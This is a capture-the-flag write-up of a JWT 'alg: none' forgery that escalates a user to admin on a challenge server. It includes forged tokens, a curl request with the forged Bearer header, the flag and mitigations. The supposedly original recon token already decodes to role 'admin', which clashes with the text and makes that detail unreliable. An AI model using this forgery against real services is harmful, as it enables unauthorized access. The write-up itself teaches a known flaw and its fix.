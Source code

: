 # 🔐 None Shall Pass – JWT alg: none Token Forgery

**Category:** Web Security\
**Points:** 200\

---

### 🧠 Challenge Summary

Deep inside Juche Jaguar’s intranet runs a custom token-based gateway protecting their most sensitive files at `/secret`. We got access to a low-privileged user account (`agent:spudpotato`). The challenge was to obtain a token and escalate privileges using a vulnerability in how JWTs were handled.

---

### 🎯 Objective

Exploit a vulnerable JWT implementation to escalate privileges from `user` to `admin` and access the `/secret` endpoint.

```
http://34.85.163.182:8080/secret
```

---

### 🛠️ Tools & Techniques Used

- [jwt.io](https://jwt.io) (for decoding and inspecting JWTs)
- Web browser (initial login)
- Manual Base64 crafting
- `curl` for HTTP request
- Token manipulation (`alg: none` bypass)

---

### 🔍 Recon – Analyzing the JWT

After logging in with:

```
Username: agent
Password: spudpotato
```

A JWT appeared at the bottom of the login screen:

```
eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.<<signature>>
```

We pasted it into [jwt.io](https://jwt.io) to decode:

#### Header:

```json
{
  "alg": "HS256",
  "typ": "JWT"
}
```

#### Payload:

```json
{
  "user": "agent",
  "role": "user"
}
```

The use of `HS256` implied HMAC signing and suggested a possible `alg: none` vulnerability.

---

### 🧪 Exploitation – `alg: none` Forged JWT

Some misconfigured libraries accept tokens using `alg: none`, skipping signature validation entirely.

#### 1. Forge JWT Header:

```json
{
  "alg": "none",
  "typ": "JWT"
}
```

→ Base64: `eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0`

#### 2. Forge JWT Payload:

```json
{
  "user": "agent",
  "role": "admin"
}
```

→ Base64: `eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ`

#### 3. Combine:

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ.
```

(Note: ends with a period to represent no signature)

---

### 🚀 Final Exploit Request

```bash
curl http://34.85.163.182:8080/secret \
  -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VyIjoiYWdlbnQiLCJyb2xlIjoiYWRtaW4ifQ."
```

---

### 🏁 Flag

```
C1{n0n3_4lg0_byp4ss}
```

---

### 🔒 Mitigation

- Reject tokens with `alg: none`
- Always validate the JWT algorithm against a whitelist (e.g., `HS256`, `RS256`)
- Use maintained JWT libraries with secure defaults

---

